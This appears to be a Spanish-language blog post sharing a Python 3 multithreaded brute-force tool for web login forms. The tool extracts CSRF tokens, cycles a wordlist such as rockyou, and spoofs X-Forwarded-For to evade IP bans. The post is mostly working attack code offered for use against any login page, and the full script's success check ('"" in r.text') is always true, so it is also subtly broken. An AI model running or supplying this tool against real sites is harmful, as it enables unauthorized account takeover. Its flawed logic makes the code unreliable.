 # Brute-Force Login With Threads

# [https://pastebin.com/9gW4iGkJ](https://pastebin.com/9gW4iGkJ)

![Untitled](/assets/images/Brute-Force%20Login%20With%20Threads/Untitled.png)

He realizado este script ya que he estado investigando un poco y me parecía que no habían muchos scripts en python3 que realicen fuerza bruta a un login, por eso he decidido compartirlo con vosotros.

Primero que nada os voy a comentar un poco lo que hace este script y como debéis de usarlo ya que no funciona para cualquier pagina, actualmente en esta “version” únicamente funciona contra paginas que tengan o no tengan un tokenCSRF, en caso de que no lo tengan implementado y unicamente se tramite por POST el “username” y el “password” tenéis que cambiar la configuración del script de esta forma:

```python
#Extraccion del token anti-csrf
        #token = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)[0]
        post_data = {
            #'tokenCSRF': '%s' % token,
            'username' : '%s' % username,
            'password' : '%s' % password,
            'save': ''
        }
```

También tenéis que configurar la respuesta del lado del servidor para comprobar si la contraseña es correcta o no lo es, para ello realizareis una petición con unas credenciales incorrectas y veréis el típico error al fallar las credenciales como por ej: “Invalid credentials”, sabiendo la respuesta del lado del servidor configurareis el script de la siguiente forma:

```python
#Configuracion de la respuesta del servidor para averiguar la contraseña
        if "Invalid credentials" not in r.text:
            print(Color.BLUE + "\n\nLa contraseña es: " + Color.YELLOW + "%s" % password)
            executor.shutdown(wait=False, cancel_futures=True)
            sys.exit(1)
        else:
            pass
```

Por mi experiencia en la creación del script recomiendo no usar mas de 2 hilos de velocidad (esta puesto 2 hilos por defecto), ya que estos tipos de ataques dependen mucho de la velocidad de respuesta del servidor web, y si le metemos muchos hilos va a ir muy rápido pero no le dará tiempo a comprobar si la contraseña es correcta o no. Todo depende de la velocidad del servidor.

Os dejo por aquí también el script:

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
 
import requests
from pwn import *
import urllib3
import mmap
import argparse
 
from concurrent.futures import ThreadPoolExecutor
  
# CTRL+C
def def_hundler(sig, frame):
    print(Color.RED + "[!]Saliendo..")
    exit(1)
signal.signal(signal.SIGINT, def_hundler) 
 
#Colores
class Color:
    CYAN = '\033[96m'
    BLUE = '\033[94m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    RED = '\033[91m'
    END = '\033[0m'
#Funciones
def usage():
    fNombre = os.path.basename(__file__)
    ussage = fNombre + ' [-h] -url <URL> [-u USERNAME] [-w DICCIONARIO] [-t HILOS]\n\n'
    ussage += '[+] Examples:\n'
    ussage += '\t' + fNombre + ' -url https://google.com/login -u admin -w /usr/share/wordlists/rockyou.txt -t 2\n'
    return ussage
 
def arguments():
    parse = argparse.ArgumentParser(usage=usage(), description="Python3 Brute-Force login with threads")
    parse.add_argument('-u', dest='username', type=str, default='', help='Usuario a reventar')
    parse.add_argument('-w', dest='diccionario', type=str, default='', help='Diccionario a usar')
    parse.add_argument('-url', dest='url', type=str, help='URL del login')
    parse.add_argument('-t', dest='threads', type=int, default='2', help='Hilos (Velocidad), Default -> [2]')
    return parse.parse_args()
 
#Funcion para sacar el numero de palabras de un diccionario 
def get_num_lines(diccionario):
    fp = open(diccionario, "r+")
    buf = mmap.mmap(fp.fileno(), 0)
    lines = 0
    while buf.readline():
        lines += 1
    return lines
 
 
def do_login(s, url, username, password, executor, count, total):
 
    try:
        r = s.get(url)
        #Extraccion del token anti-csrf
        token = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)[0]
        post_data = {
            'tokenCSRF': '%s' % token,
            'username' : '%s' % username,
            'password' : '%s' % password,
            'save': ''
        }
        headers_data = {
            #Bypass IP-BAN
            'X-Forwarded-For': '%s' % password,
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        }
#        proxy = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
        r = s.post(url, data=post_data, headers=headers_data, allow_redirects = True)
        p1.status(Color.BLUE + "Intentando con la contraseña" + Color.RED + " [%d/" %count + "%d] ==>" %total + Color.GREEN + " %s" %password)        
        #Configuracion de la respuesta del servidor para averiguar la contraseña
        if "" in r.text:
            print(Color.BLUE + "\n\nLa contraseña es: " + Color.YELLOW + "%s" % password)
            executor.shutdown(wait=False, cancel_futures=True)
            sys.exit(1)
        else:
            pass
 
    except Exception as e:
        print(e)
 
def main(url, username, diccionario, executor):
    try:
        urllib3.disable_warnings()
        s = requests.session()
        s.verify = False
        count = 0
        with open(diccionario, encoding='latin-1') as fp:
            for password in fp.read().splitlines():
                count += 1
                executor.submit(do_login, s, url, username, password, executor, count, total)
    except Exception as e:
        print(e)
 
if __name__ == '__main__':
    print(Color.CYAN + """
██████╗ ██████╗ ██╗   ██╗████████╗███████╗    ███████╗ ██████╗ ██████╗  ██████╗███████╗██████╗ 
██╔══██╗██╔══██╗██║   ██║╚══██╔══╝██╔════╝    ██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔════╝██╔══██╗
██████╔╝██████╔╝██║   ██║   ██║   █████╗█████╗█████╗  ██║   ██║██████╔╝██║     █████╗  ██████╔╝
██╔══██╗██╔══██╗██║   ██║   ██║   ██╔══╝╚════╝██╔══╝  ██║   ██║██╔══██╗██║     ██╔══╝  ██╔══██╗
██████╔╝██║  ██║╚██████╔╝   ██║   ███████╗    ██║     ╚██████╔╝██║  ██║╚██████╗███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝ ╚═════╝    ╚═╝   ╚══════╝    ╚═╝      ╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═╝  ╚═╝ 
        """)
    args = arguments()
    total = get_num_lines(args.diccionario)
    p1 = log.progress(Color.BLUE + "Fuerza Bruta sobre el usuario :" + Color.RED + " %s" % args.username)    
    executor = ThreadPoolExecutor(args.threads)
    main(args.url, args.username, args.diccionario, executor)
```
